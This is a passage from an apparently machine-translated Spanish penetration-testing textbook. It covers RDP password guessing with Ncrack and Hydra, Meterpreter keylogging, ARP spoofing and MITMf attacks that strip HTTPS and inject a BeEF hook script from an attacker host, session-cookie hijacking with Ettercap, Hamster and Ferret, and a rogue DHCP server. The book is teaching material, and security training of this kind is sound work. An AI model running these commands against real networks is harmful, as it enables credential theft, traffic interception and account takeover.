El protocolo fue diseñado para el acceso remoto. Sin embargo, como evaluadores de penetración, podemos aprovechar los sistemas que tienen RDP habilitado e intentar descubrir credenciales de usuario válidas para los sistemas de destino. Comencemos:

1. Para comenzar, podemos usar Nmap para escanear una red mientras buscamos cualquier dispositivo que tenga RDP habilitado. RDP usa el puerto 3389en Windows, por lo que podemos usar el siguiente comando de Nmap para escanear un objetivo:

```markup
nmap -p 3389 -sV <target IP address>

```

La siguiente captura de pantalla indica un sistema que tiene el puerto 3389abierto y está en ejecución Microsoft Terminal Services:



1. Ahora que hemos encontrado un objetivo adecuado, podemos realizar un ataque de diccionario sobre el objetivo en vivo. Con **Ncrack** (una herramienta de descifrado de contraseñas sin conexión), podemos utilizar una lista de posibles nombres de usuario ( usernames.txt) y contraseñas ( custom_list.txt), como se muestra en la siguiente captura de pantalla:



A continuación se describen cada uno de los conmutadores utilizados en el fragmento anterior:

- - -v:Aumenta el nivel de detalle de la salida en la Terminal.
  - -T (0-5): Ajusta el tiempo del ataque. Cuanto mayor sea el número, más rápido será el ataque.
  - -U:Le permite especificar una lista de nombres de usuario.
  - --user:Le permite especificar nombres de usuario, cada uno separado por una coma.
  - -P:Le permite especificar una lista de contraseñas.
  - --pass:Le permite especificar contraseñas, cada una separada por una coma.
  - service://host:Ncrack utiliza este formato para especificar un servicio y un dispositivo de destino.

Como has podido ver, **Ncrack** ha podido encontrar una combinación válida de nombre de usuario y contraseña para el objetivo ( 10.10.10.19). Por lo tanto, una vez obtenidas las credenciales del usuario, ahora es sencillo utilizarlas a nuestro favor.

1. En este punto, una vez que haya obtenido una cuenta de usuario válida, el siguiente paso es iniciar sesión en el destino utilizando el RDP y otros servicios de red (Telnet, SSH, VNC, etc.) que encontró ejecutándose en el sistema de destino.

Otra herramienta **de descifrado de contraseñas en línea** que podríamos utilizar es **Hydra** . Para utilizar Hydra y realizar la misma tarea que acabamos de realizar con Ncrack, puedes ejecutar el siguiente comando:

```markup
hydra -V -f -L usernames.txt -P custom_list.txt rdp://10.10.10.19

```

Tenga en cuenta que es posible que el módulo RDP de Hydra no funcione en las versiones modernas de Windows. Puedes encontrar más información sobre Hydra en su repositorio oficial de GitHub en https://github.com/vanhauser-thc/thc-hydra .

Al recibir un meterpretershell en **Metasploit**, los siguientes son algunos comandos útiles para ayudarlo a capturar las pulsaciones de teclas y la pantalla de la víctima:

- screenshare:Este comando se utiliza para ver el escritorio de la víctima remota en tiempo real.
- screenshot:Toma una fotografía del escritorio de la víctima.
- keyscan_start:Inicia el registro de teclas mediante Meterpreter.
- keyscan_stop:Detiene el registro de teclas.
- keyscan_dump: Produce un volcado de las pulsaciones de teclas capturadas.

La siguiente captura de pantalla muestra una vista de pantalla en vivo del escritorio de una víctima después de ejecutar el screensharecomando en Meterpreter:



Como puedes ver, es bastante aterrador lo que un verdadero hacker puede hacer una vez que logra acceder a una red o sistema.

Ahora puedes detectar y explotar la vulnerabilidad de EternalBlue en el sistema operativo Windows. A continuación, veremos cómo aprovechar las credenciales de usuario para nuestro beneficio.

## Aprovechamiento de las credenciales de usuario

Ahora que hemos obtenido las credenciales de usuario para un sistema Microsoft Windows de destino, intentemos conectarnos de forma remota. Para este ejercicio, vamos a utilizar el cliente **rdesktop**, que ya está preinstalado en Kali Linux. Comencemos:

**rdesktop** es un protocolo de código abierto que se utiliza para la administración remota, de manera similar al RDP de Microsoft.

1. Para utilizar rdesktop, abre una nueva ventana de Terminal y utiliza la siguiente sintaxis:

```markup
rdesktop -u <username> -p <password> <target's IP address>

```

El siguiente fragmento es un ejemplo de uso de la herramienta rdesktop con todos los detalles necesarios:



2. Una vez que haya ejecutado el comando, rdesktop intentará establecer una conexión remota con el dispositivo de destino. Una vez que lo haya logrado, rdesktop mostrará una nueva ventana con la interfaz de usuario del dispositivo de destino, como se muestra en la siguiente captura de pantalla:



En este punto, hemos logrado ingresar con éxito al sistema operativo de destino y tenemos control sobre él.

Si el sistema de su atacante no tiene la herramienta rdesktop, Puedes encontrarla en su repositorio oficial de GitHub: https://github.com/rdesktop/rdesktop. Para obtener más información sobre rdesktop, visite su sitio web oficial en www.rdesktop.org .

Como viste, podemos usar herramientas nativas de Kali Linux con las credenciales de la víctima para acceder a recursos, sistemas y redes durante una prueba de penetración. En la siguiente sección, analizaremos en profundidad los implantes de red.


## Conectar cajas PWN y otras herramientas directamente a una red

Muy a menudo, los evaluadores de penetración tienden a colocar una pequeña caja especial dentro de la red de una organización. Estas se conocen como implantes de red y, a veces, se las denomina cajas PWN. Los implantes de red permiten que un atacante establezca una conexión desde Internet a una red corporativa, al conectarse a la herramienta de implante, como se muestra en la siguiente captura de pantalla:



La siguiente es una foto de un implante de red que se puede insertar para interceptar el tráfico de la red. Este dispositivo es capaz de capturar paquetes en vivo y almacenarlos en una unidad flash USB. Tiene capacidades de acceso remoto que pueden permitir que un evaluador de penetración o un administrador de sistemas accede de forma remota al dispositivo, lo que permite al usuario realizar de forma remota varias tareas en la red. Este pequeño dispositivo se llama Packet **Squirrel** y fue creado por Hak5:



Además, hay otro dispositivo que parece un adaptador Ethernet USB. Este llamado adaptador Ethernet también es otro implante de red que permite a un evaluador de penetración acceder de forma remota a una red y realizar varias tareas, como escaneo, explotación y pivoteo de ataques. Este pequeño dispositivo se llama LAN **Turtle**, otra increíble pieza de equipo que fue producida por Hak5:


En los últimos años, la **Raspberry Pi** ( www.raspberrypi.org ) se introdujo en el mundo de la informática. Hoy en día, muchas instituciones, organizaciones y hogares utilizan la Raspberry Pi para muchos proyectos, desde aprendizaje hasta programación y sistemas de monitoreo de seguridad del hogar. Las posibilidades son infinitas con esta pequeña computadora del tamaño de una tarjeta de crédito:


Sin embargo, hay muchos sistemas operativos que están actualmente disponibles para Raspberry Pi, uno de los cuales es la imagen ARM de Kali Linux ( https://www.offensive-security.com/kali-linux-arm-images/ ). Imagine las posibilidades de cargar Kali Linux en este dispositivo portátil, implantarlo en la red de una organización y configurar el acceso remoto. Los resultados de un escenario de este tipo serían graves si lo perpetrara un atacante real, pero un evaluador de penetración podría ayudar mucho a su cliente mostrándole lo vulnerable que es a los ataques lanzados desde dentro de la red interna.

Hay tantos dispositivos y aparatos que facilitan las pruebas de penetración que las posibilidades son ilimitadas. En la siguiente sección, cubriremos los aspectos básicos de NAC.


## Evitando el NAC

NAC es un sistema diseñado para controlar el acceso y garantizar el cumplimiento normativo. Utiliza un conjunto de procesos y tecnologías que se centran en controlar quién y qué Puedes acceder a una red y sus recursos. NAC logra esto al autorizar a los dispositivos que tienen un nivel de cumplimiento normativo para operar en una red corporativa.

Una vez que se conecta un dispositivo, el servidor NAC puede crear perfiles y verificar si el dispositivo conectado ha cumplido con el estándar de cumplimiento antes de permitir el acceso a los recursos de la red, las políticas de seguridad y los controles, que están configurados para garantizar que exista algún tipo de restricción que impida que los dispositivos no compatibles obtengan acceso a la red.

IEEE 802.1x es el estándar NAC para redes LAN (cableadas) y WLAN (inalámbricas). Dentro de una red 802.1x, hay tres componentes principales:

- **Servidor de autenticación**: el servidor de autenticación es el dispositivo que maneja los servicios **de autenticación, autorización y contabilidad** (**AAA**) en una red. Aquí es donde se crean y almacenan las cuentas de usuario, y donde se aplican los privilegios y las políticas. El servidor de autenticación ejecuta **el Servicio de autenticación remota telefónica de usuario** (**RADIUS**) o **el Sistema de control de acceso del controlador de acceso a terminales Plus** (**TACACS+**) como protocolo.
- **Autenticador**: normalmente, se trata del dispositivo de red al que intenta acceder, ya sea con fines administrativos o simplemente para acceder a la red. Dichos dispositivos pueden ser un enrutador o punto de acceso inalámbrico o un conmutador de red.
- **Solicitante**: el solicitante es el dispositivo cliente, como un teléfono inteligente o una computadora portátil, que desea acceder a la red. El solicitante se conecta a la red (cableada o inalámbrica) y se le solicita que accede a una ventana de inicio de sesión de autenticación proporcionada por el autenticador. Cuando el usuario envía sus credenciales de usuario, el autenticador consulta al servidor de autenticación para verificar al usuario y determinar qué políticas y privilegios se aplicarán mientras el usuario esté conectado a la red.

Eludir un sistema NAC puede resultar un tanto complicado. Durante este capítulo y el anterior, analizamos cómo recopilar credenciales de usuario y falsificar la identidad de nuestra máquina atacante (Kali Linux). El uso de la dirección MAC y las credenciales de usuario de un usuario válido en una red de destino le proporcionará algún tipo de acceso a la red segura.

Sin embargo, los servidores NAC pueden crear perfiles del sistema operativo y brindar protección antimalware en todos los dispositivos conectados. Si su sistema no cumple con los requisitos de cumplimiento, esto puede generar una señal de alerta o no permitir el acceso según las políticas.


## Resumen

En este capítulo, pudimos cubrir una gran cantidad de contenido práctico, como romper los estándares de cifrado inalámbrico WEP y WPA para recuperar la clave (frase de contraseña). Después de haber explotado la seguridad inalámbrica, se analizaron y demostraron las mejores prácticas para que podamos proteger las redes inalámbricas de posibles piratas informáticos.

Además, se abordó un enfoque práctico de las pruebas de penetración en los servicios RDP y Citrix de Microsoft. Por último, se abordaron los usos de varios implantes de red y cómo pueden mantener el acceso remoto a una red corporativa.

Ahora tienes las habilidades para obtener acceso a una red inalámbrica, realizar explotaciones en sistemas de destino y obtener acceso a los sistemas operativos Linux y Windows.

En el Capítulo 11, *Pruebas de penetración de red: ataques posteriores a la conexión*, exploraremos varias herramientas en la fase posterior a la conexión.


## Preguntas

1. ¿Qué algoritmo utiliza WPA2 para el cifrado de datos?
2. ¿Qué script de Nmap se utiliza para descubrir servidores que ejecutan aplicaciones Citrix?
3. ¿Cuál es el puerto predeterminado que utiliza el RDP de Microsoft?
4. ¿Cuáles son algunas herramientas para descifrar contraseñas dentro de Kali Linux?
5. ¿Qué dispositivo se utiliza normalmente para almacenar todas las cuentas y políticas de usuario?
6. ¿Qué comando se puede usar para encontrar un módulo en Metasploit?
7. ¿Cuál es el estándar para NAC?


## Otras lecturas

A continuación se presentan algunos recursos de lectura adicionales recomendados:

- **Metasploit desatado**: https://www.offensive-security.com/metasploit-unleashed/
- **Herramientas de seguridad adicionales**: https://sectools.org/


# Pruebas de penetración de red: ataques posteriores a la conexión

Obtener acceso a un sistema o red definitivamente no es el final de la realización de escaneos y explotación posterior. Una vez que haya ingresado a un entorno seguro, como una organización objetivo, aquí es donde deberá dividir y conquistar otros sistemas internos. Sin embargo, las técnicas involucradas en la realización de escaneos internos son similares a las mencionadas en capítulos anteriores ( Capítulo 6, *Recopilación activa de información* ). Aquí, se presentarán nuevas técnicas para escaneo, explotación, escalada de privilegios y realización de movimientos laterales en una red. Para profundizar más, aprenderá cómo realizar ataques **Man-in-the-Middle** (**MITM**) utilizando varias técnicas y herramientas y verá cómo recopilar información confidencial, como las credenciales de los usuarios.

En este capítulo cubriremos los siguientes temas:

- Reuniendo información
- Ataques MITM
- Secuestro de sesión
-  Ataques **del Protocolo de configuración dinámica de host** (**DHCP**)
- Explotación de LLMNR y NetBIOS-NS
- **Ataques al protocolo Web Proxy Auto-Discovery** (**WPAD**)
- Cableado
- Elevación de privilegios
- Tácticas de movimiento lateral
- Técnicas comerciales de PowerShell
- Lanzar un ataque de salto de VLAN


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Kali Linux: www.kali.org
- MITMf: https://github.com/byt3bl33d3r/MITMf
- Escaneo automático: https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/
- Wireshark: www.wireshark.org
- Ventanas 7
- Ventanas 10
- Servidor Windows 2016
- CentOS/Ubuntu


## Reuniendo información

Durante las primeras partes de este libro, analizamos en profundidad la importancia de recopilar información sobre un objetivo utilizando técnicas y herramientas tanto pasivas como activas en Kali Linux. Sin embargo, cuando se ha comprometido un sistema mediante una explotación, no se trata del final de la prueba de penetración. Más bien, es el punto desde el que se continuará para explotar diferentes sistemas en la red de la organización, crear múltiples puertas traseras y obtener los privilegios más altos en varios dispositivos de la víctima.

En esta sección, vamos a realizar un escaneo de red utilizando las siguientes herramientas:

- Descubrimiento en red
- Auto escáner
- Mapa Zen

Veamos cada uno de ellos con más detalle.

## Escaneo con Netdiscover

**Netdiscover** es simplemente un escáner que aprovecha el **protocolo de resolución de direcciones** (**ARP**) para descubrir clientes conectados en un segmento de red. ARP opera entre la capa de enlace de datos (capa 2) y la capa de red (capa 3) del modelo de referencia OSI. Los dispositivos utilizan ARP para resolver direcciones IP en direcciones MAC para la comunicación local.

Para realizar un escaneo de red interna con Netdiscover, siga los siguientes pasos:

1. Ejecuta los siguientes comandos:

```markup
netdiscover -r <network-ID>/<network prefix>
netdiscover -r 10.10.10.0/24

```

Netdiscover comenzará a mostrar todos los dispositivos activos, mostrando sus direcciones IP, direcciones MAC, los proveedores de sus **tarjetas de interfaz de red** (**NIC**) y sus nombres de host, como se muestra en la siguiente captura de pantalla:



1. Para realizar un análisis pasivo y utilizar el modo sniffer de Netdiscover, utiliza el -pparámetro. A continuación, se muestra un ejemplo de cómo habilitar el modo pasivo:

```markup
netdiscover -p -r 10.10.10.0/24

```

Dado que el modo pasivo implica esperar pacientemente a que se detecte un mensaje ARP en la red, completar la tabla puede llevar mucho tiempo, ya que hay que esperar a que los dispositivos se comuniquen. La siguiente es una captura de pantalla que indica que el modo pasivo está habilitado:


Durante una prueba de penetración, recuerda siempre utilizar herramientas sencillas para realizar el trabajo. A veces, el uso de una herramienta compleja puede ponerte en una situación en la que te quedarás estancado durante algún tiempo. Como habrás notado, las herramientas que hemos estado utilizando no son demasiado difíciles de usar para completar una tarea determinada.


En esta sección, aprendió a realizar un escaneo pasivo con Netdiscover en Kali Linux. A continuación, aprenderemos a realizar un escaneo de red con la herramienta AutoScan.

## Escaneo mediante AutoScan-Network

La herramienta AutoScan-Network puede escanear y perfilar dispositivos en un segmento de red local.

Para comenzar, siga los siguientes pasos:

1. Descargue AutoScan-Network desde la siguiente URL: https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/ .

Elija la versión como se muestra en la siguiente captura de pantalla:



2. Una vez que el archivo se haya descargado correctamente en su máquina Kali Linux, abra la Terminal y ejecútelo 

   ``tar -xzvf autoscan-network-1.42-Linux-x86-Install.tar.gz``

   para extraer el contenido. Las siguientes son las descripciones utilizadas en la utilidad `tar`:

   - `-x`: Se utiliza para extraer archivos
   - `-z`: Filtra el archivo comprimido a través de gzip
   - `-v`: Proporciona una salida detallada
   - `-f`: Especifica el archivo o dispositivo

3. A continuación, utiliza ./autoscan-network-1.42-Linux-x86-Installpara instalar la herramienta, como se muestra en la siguiente captura de pantalla:



5. Ahora que AutoScan-Network se ha instalado en Kali Linux, es momento de abrir la aplicación. En el entorno de escritorio de Kali Linux, haz clic en Aplicaciones | AutoScan-Network para abrir la aplicación.
6. Se abrirá el Asistente de red; haz clic en **Siguiente** para comenzar la configuración de AutoScan-Network.
7. A continuación, configure el nombre de su red y haz clic en **Reenviar** .
8. El asistente le pedirá la ubicación de la red; déjela como la configuración predeterminada (localhost) y haz clic en **Reenviar** .
9. Seleccione su adaptador de red. Si está utilizando un adaptador LAN ( eth0), déjelo como predeterminado y haz clic **en Adelante** .
10. Hax clic en **Siguiente** en la ventana Resumen para confirmar tus configuraciones.

AutoScan-Network comenzará a escanear automáticamente su red local e intentará tomar huellas digitales de todos los servicios que encuentre en cada dispositivo, como se muestra en la siguiente captura de pantalla:



Una vez completado, AutoScan-Network mostrará todas las direcciones IP, nombres de host y servicios que pudo detectar en tu red local.

En la siguiente sección, cubriremos las técnicas esenciales necesarias para realizar escaneo utilizando Zenmap.

## Escaneo con Zenmap

Zenmap es la versión GUI de Nmap. Ofrece las mismas funciones y capacidades que su versión de línea de comandos. Para abrir Zenmap, sigue estos pasos:

1. Ve a Aplicaciones | Recopilación de información | Zenmap .
2. Una vez abierta la aplicación, se te presentará la siguiente interfaz de usuario, que te permitirá especificar un objetivo o rango y el tipo de escaneo a realizar (perfil), además de permitirte crear y ejecutar escaneos personalizados:


3. Una vez que se completa un escaneo, Zenmap completará la siguiente información dentro de la pestaña: Salida de Nmap, Puertos/Hosts, Topología y Detalles del host :



En nuestros ejercicios, hemos estado realizando un escaneo rápido de la red 10.10.10.0/24 y hemos podido determinar sistemas activos y puertos abiertos.

En esta sección, has adquirido las habilidades necesarias para realizar un análisis rápido con Zenmap. En la siguiente sección, aprenderemos más sobre los ataques MITM.


## Ataques MITM

Un ataque **MITM** es simplemente cuando el atacante se sitúa entre la víctima y el resto de su red, interceptando y capturando paquetes de red. La siguiente es una ilustración que muestra a un atacante (192.168.1.5) que está conectado al mismo segmento que la víctima (192.168.1.10):



De forma predeterminada, la máquina atacante no podrá interceptar ni capturar ningún tráfico entre **PC1** y la puerta de enlace predeterminada (192.168.1.1). Sin embargo, un atacante puede realizar **un envenenamiento ARP** entre la víctima y la puerta de enlace. El envenenamiento ARP se produce cuando un atacante envía una **respuesta ARP gratuita** a un dispositivo para indicarle que actualice su asignación de IP a MAC. La máquina atacante enviará mensajes ARP gratuitos a la víctima, indicando a la máquina de la víctima que la puerta de enlace ha cambiado a 192.168.1.1 - CC:CC:CC:CC:CC:CC, y a la puerta de enlace, indicando que **PC1** ha cambiado a 192.168.1.10 - CC:CC:CC:CC:CC:CC.

Esto tendría el efecto de que todos los paquetes intercambiados entre **PC1** y el enrutador pasarían a través de la máquina atacante, que rastrea esos paquetes en busca de información confidencial, como actualizaciones de enrutamiento, servicios en ejecución, credenciales de usuario e historial de navegación.

En la siguiente sección, analizaremos varias herramientas y técnicas para realizar un ataque MITM exitoso en una red interna.

## ARP parodia

Una de las primeras herramientas que analizaremos es ARPspoof. ARPspoof se utiliza para enviar mensajes ARP falsos a la máquina de una víctima, engañándola para que envíe su tráfico a la máquina del atacante o a otra puerta de enlace de la red. Dado que tenemos una idea de cómo funciona el envenenamiento y la suplantación de ARP, podemos pasar directamente a la práctica de usar esta herramienta. Usamos la siguiente sintaxis:

```markup
arpspoof -i <network adapter> -r -t <victim IP address> <gateway IP address>

```

En nuestro laboratorio, estoy realizando un ataque MITM entre una máquina víctima ( 10.10.10.15) y una puerta de enlace ( 10.10.10.1), como se muestra en la siguiente captura de pantalla:



ARPspoof comenzará a enviar mensajes **ARP gratuitos** a ambos dispositivos de forma continua. Al usar *Ctrl* + *C* se detendrá el ataque de envenenamiento de ARP y ARPspoof realizará una acción de limpieza para restablecer un estado de funcionamiento entre la víctima y la puerta de enlace, como se muestra en la siguiente captura de pantalla:



Una vez que la limpieza haya finalizado con éxito, tanto la PC ( 10.10.10.15) como la puerta de enlace ( 10.10.10.1) se comunicarán en la red como estaba previsto originalmente.

Una vez que haya completado esta sección, podrá realizar un ataque MITM con ARPspoof. En la siguiente sección, aprenderá sobre MITMf y sus características.

## MITMf

MITMf es una herramienta todo en uno para realizar distintos tipos de ataques y técnicas MITM en la red interna de la víctima. Las características de MITMf incluyen lo siguiente:

- La captura de credenciales NTLM v1/v2, POP, IMAP, SMTP, Telnet, FTP, Kerberos y SNMP. Estas credenciales le permitirán acceder a las cuentas de los usuarios, sistemas/dispositivos, recursos compartidos de archivos y otros recursos de red.
- El uso de Responder para realizar ataques de envenenamiento LLMNR, NBT-NS y MDNS.

Para comenzar a utilizar MITMf, siga estas instrucciones:

1. Instala los paquetes de dependencias en Kali Linux usando el siguiente comando:

```markup
apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file

```

1. Una vez completado, instala virtualenvwrapper:

```markup
 pip install virtualenvwrapper

```

1. A continuación, deberá actualizar la fuente en el virtualenvwrapper.shscript. En primer lugar, ejecute el updatedbcomando para crear una base de datos actualizada de todas las ubicaciones de archivos en el sistema de archivos local. Una vez completado, utiliza el locate virtualenvwrapper.shcomando para obtener la ruta del archivo. Luego, ejecute el sourcecomando seguido de la ruta del archivo, como se muestra en la siguiente captura de pantalla:



1. Cree un entorno virtual utilizando el mkvirtualenv MITMf -p /usr/bin/python2.7comando y descargue el repositorio MITMf, como se muestra en la siguiente captura de pantalla:



1. Una vez descargado el repositorio, cambie de directorio y clone los submódulos:

```markup
cd MITMf && git submodule init && git submodule update -recursive

```

1. Instale las dependencias usando el siguiente comando:

```markup
pip install -r requirements.txt

```

1. Para ver el menú de ayuda, utiliza el siguiente comando:

```markup
python mitmf.py --help


```

Ya ha configurado MITMf en su máquina Kali Linux. A continuación, analicemos en profundidad los casos de uso de MITMf.

## Casos de uso de MITMf

Los siguientes son los diversos casos de uso de MITMf:

Tenga en cuenta que todos los ataques solo deben realizarse en un entorno de laboratorio y únicamente en redes para las que haya obtenido permiso legal.

- Puedes omitir HTTPS con MITMf:

```markup
python mitmf.py -i eth0 --spoof --arp --hsts --dns --gateway 10.10.10.1 --target 10.10.10.15

```

- - -i: Especifica la interfaz contra la cual ejecutar MITMf
  - --spoof:Le dice a MITMf que falsifique una identidad
  - --arp:Realiza la redirección del tráfico a través de ARP
  - --hsts:Carga el complemento sslstrip
  - --dns:Carga un proxy para modificar las consultas DNS
  - --gateway: Especifica la puerta de enlace
  - --target: Especifica el objetivo

- Puedes realizar un ataque de envenenamiento de ARP entre la puerta de enlace ( 10.10.10.1) y toda la subred:

```markup
python mitmf.py -i eth0 --spoof --arp --gateway 10.10.10.1

```

- Puedes realizar un envenenamiento ARP entre la víctima y la puerta de enlace ( 10.10.10.1):

```markup
python mitmf.py -i eth0 --spoof --arp --target 10.10.10.10-10.10.10.50 --gateway 10.10.10.1

```

- Puedes realizar suplantación de DNS mientras realiza un ataque de envenenamiento de ARP en una subred y puerta de enlace ( 10.10.10.1):

```markup
python mitmf.py -i eth0 --spoof --dns --arp --target 10.10.10.0/24 --gateway 10.10.10.1

```

- Puedes realizar suplantación de LLMNR/NBTNS/MDNS utilizando MITMf:

```markup
python mitmf.py -i eth0 --responder --wredir --nbtns

```

- Puedes realizar un ataque de suplantación de DHCP:

```markup
python mitmf.py -i eth0 --spoof --dhcp

```

Este ataque es útil durante la fase de post-explotación.

El esquema de direccionamiento IP y la información de subred se toman del archivo de configuración.

- se puede inyectar un iframe HTML usando MITMf:

```markup
python mitmf.py -i eth0 --inject --html-url <malicious web URL>

```

- se puede inyectar un script JavaScript:

```markup
python mitmf.py -i eth0 --inject --js-url http://beef:3000/hook.js

```

Puedes realizar envenenamiento ARP con el protocolo WPAD como un servidor proxy no autorizado utilizando el respondermódulo:

```markup
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --responder --wpad

```

A continuación se muestra una lista adicional de parámetros que se pueden incorporar:

- **Captura de pantalla**: esto permite que MITMf use el lienzo HTML5 para obtener una imagen precisa del navegador web del cliente mediante el --screencomando. Además, Puedes capturar capturas de pantalla utilizando un intervalo de tiempo con el --interval secondscomando.
- **Keylogger**: el --jskeylogger comando inyecta un keylogger de JavaScript en las páginas web de la víctima para capturar las pulsaciones de teclas.

Tenga en cuenta que para ver parámetros adicionales de la herramienta MITMf, Puedes ejecutar el python mitmf.py --helpcomando.**
**

Una vez que haya completado esta sección, ya posee las habilidades necesarias para realizar varios tipos de ataques mediante MITMf. En la siguiente sección, abordaremos los ataques de secuestro de sesión.


## Secuestro de sesión

En esta sección, realizaremos un secuestro de sesión en una máquina de destino en nuestra red. Para realizar este ataque, combinaremos algunas otras técnicas para asegurarnos de que sea exitoso. Cada vez que un usuario visita un sitio web, el servidor web envía una cookie al navegador web. La cookie se utiliza para monitorear las actividades del usuario y brindar una mejor experiencia de usuario al rastrear los artículos en un carrito de compras, mantener un inicio de sesión persistente mientras navega por otras áreas de un sitio web, etc.

El secuestro de sesión permite a un atacante o a un evaluador de penetración capturar y tomar el control (secuestrar) las sesiones de otro usuario mientras la víctima está conectada a un sitio web. El secuestro de sesión permite al evaluador de penetración capturar el token/clave de sesión, que luego se utiliza para obtener acceso no autorizado a la información y los recursos de un sistema. Por ejemplo, capturar la sesión de un usuario que está conectado a su portal de banca en línea puede permitir al atacante acceder a la cuenta de usuario de la víctima sin tener que ingresar las credenciales de usuario de la víctima, ya que simplemente puede proporcionar los datos de las cookies al sitio web/portal en línea.

Antes de comenzar, utilizaremos la siguiente topología en nuestra red de laboratorio para completar nuestro ejercicio:



Para asegurarse de completar este ejercicio con éxito, utiliza las siguientes instrucciones:

1. Configurar un ataque MITM usando **Ettercap-Graphical** con Kali Linux. Para realizar esta tarea, diríjase a Aplicaciones | 09 – Sniffing & Spoofing | ettercap-graphical como se muestra aquí:



1. Una vez abierto Ettercap, haz clic en Sniff | Sniffing unificado :



1. Aparecerá una pequeña ventana emergente. Seleccione su **interfaz de red:** **eth0** y haz clic en **Aceptar**:



1. Busque todos los dispositivos host en su red navegando a Hosts | Buscar hosts :



1. Una vez finalizado el análisis, haz clic en Hosts | Lista de hosts para ver una lista de objetivos en su red. Seleccione su objetivo y haz clic en **Agregar a objetivo 1**:



1. Una vez que se haya agregado el objetivo correctamente, habilite el envenenamiento de ARP en Ettercap navegando a Mitm | Envenenamiento de ARP :



1. Aparecerá una ventana emergente. Seleccione **Detectar conexiones remotas** y haz clic en **Aceptar**:



1. A continuación, haz clic en Inicio | Iniciar rastreo para habilitar el ataque MITM:



1. A continuación, vamos a utilizar la herramienta **Hamster** para que nos ayude a manipular los datos. Para abrir Hamster, dirígete a Aplicaciones | 09 – Sniffing & Spoofing | hamster :



**Hamster** abrirá una interfaz de línea de comandos en una nueva ventana de Terminal y proporcionará la URL, http://127.0.0.1:1234que se utiliza para ver la información de la sesión:



1. A continuación, utilizaremos **Ferret** para capturar las cookies de sesión entre la víctima y el destino de los datos. Por defecto, Kali Linux no tiene instalado Ferret; además, Ferret es una herramienta de 32 bits. Para instalar Ferret en Kali Linux, utiliza el siguiente comando:

```markup
dpkg --add-architecture i386 && apt-get update && apt-get install ferret-sidejack:i386

```

Una vez que la instalación se haya completado con éxito, navegue a Aplicaciones | 09 – Sniffing & Spoofing | ferret :



1. Utiliza el ferret -i eth0comando para capturar cookies en la interfaz Ethernet:



1. Abra el navegador web en Kali Linux e ingrese http://127.0.0.1:1234para acceder a la interfaz del proxy **Hamster** . Haz clic en **adaptadores**:



1. Seleccione el eth0 adaptador y haz clic en **Enviar consulta**:



1. Vaya a la máquina de la víctima y, usando el navegador web, ingrese la dirección IP de **Metasploitable** . A continuación, haz clic en **Damn Vulnerable Web Application** (**DVWA**). Luego, inicie sesión con el nombre de usuario ( admin) y la contraseña ( password), para generar algo de tráfico entre la máquina víctima y otro sistema.
2. En su máquina Kali Linux, actualice la página web de Hamster. Ahora debería ver aparecer la dirección IP de la víctima. Haz clic en la dirección IP de la víctima para obtener más información:



1. Al hacer clic en cualquiera de las URL de la columna de la izquierda, aparecerá una imagen de lo que la víctima podría haber visto en su navegador web:



1. Para ver una lista de detalles de cookies/sesiones, abra una nueva pestaña en su navegador web e ingrese la URL que se muestra aquí:



Pudimos capturar las cookies de sesión para las transacciones entre la máquina de la víctima y el servidor web. Una vez completado este ejercicio, ya puedes realizar ataques de robo de cookies o secuestro de sesión.

Ahora que ha completado este ejercicio, tiene las habilidades necesarias para realizar un ataque de secuestro de sesión en cualquier red. En la siguiente sección, abordaremos los ataques de **protocolo de configuración dinámica de host** (**DHCP**).


## Ataques DHCP

En muchas redes, hay cientos, e incluso miles, de dispositivos finales, como computadoras de escritorio, portátiles y dispositivos inteligentes, que requieren conectividad de red para acceder a los recursos de la red corporativa. Sin embargo, cada dispositivo requiere una dirección en la red para enviar y recibir mensajes (paquetes), una ruta para acceder a los recursos fuera de la red local (puerta de enlace predeterminada), un identificador para determinar la segmentación lógica de la red (máscara de subred) y alguien que pueda resolver nombres de host en direcciones IP en una red (servidor DNS).

Los administradores de red deben asegurarse de que los siguientes cuatro componentes estén configurados en todos los dispositivos finales:

- Dirección IP
- Máscara de subred
- Puerta de enlace predeterminada
- Servidor DNS

El uso de un servidor DHCP permite a los profesionales de TI distribuir configuraciones IP de manera eficiente y automática a los dispositivos finales de su red con gran rapidez. Para comprender mejor la importancia de DHCP en una red, cuando un cliente se conecta a una red (cableada o inalámbrica), la máquina cliente transmite un paquete **DHCP Discover** en la red en busca de un servidor DHCP que proporcione configuraciones IP. Cuando un servidor DHCP recibe el paquete discover, responde con un paquete **DHCP Offer** . Este paquete contiene configuraciones IP disponibles, que el cliente puede usar en la red. Después de que el cliente recibe y verifica la oferta del servidor, responde con **DHCP Request**, que se utiliza para informar al servidor que se utilizará la información IP. Por último, el servidor DHCP proporciona un reconocimiento y confirmación enviando un paquete **DHCP ACK**.

El siguiente diagrama describe el proceso DHCP:




Dado que un servidor DHCP normalmente proporciona la información de la puerta de enlace predeterminada a los dispositivos cliente, si el servidor DHCP proporcionara otra ruta a Internet, por ejemplo, a través de una máquina atacante, la máquina cliente (víctima) aceptaría la nueva ruta y reenviaría su paquete en consecuencia. Además, cambiar las configuraciones del servidor DNS en una máquina cliente para reenviar todas las consultas DNS a un servidor DNS falso puede provocar la carga de páginas web de phishing en el navegador de la víctima.

En esta sección, crearemos un servidor DHCP no autorizado para redirigir el tráfico de las víctimas en la red. Para comenzar, utilizaremos el marco Metasploit para crear nuestro servidor DHCP no autorizado:

1. Habilite la base de datos PostgreSQL y Metasploit mediante los siguientes comandos:

```markup
service postgresql start
msfconsole

```

1. Metasploit contiene un módulo que nos permite habilitar un servidor DHCP. Utiliza los comandos que se muestran en la siguiente captura de pantalla:



El show optionscomando mostrará una descripción de los parámetros que son opcionales y obligatorios antes de ejecutar este módulo en Metasploit.

2. Configuraremos las direcciones IP de inicio y fin, la dirección de transmisión de red, la máscara de red (máscara de subred), el servidor DNS, la puerta de enlace predeterminada (enrutador predeterminado) y la dirección IP del servidor DHCP no autorizado. La siguiente captura de pantalla muestra cómo configurar los valores para cada parámetro:



3. Cuando haya terminado, utiliza el show optionscomando para verificar que los valores estén configurados correctamente para cada parámetro:



4. Cuando esté listo para iniciar/ejecutar el módulo, escriba runy presiona *Enter*.

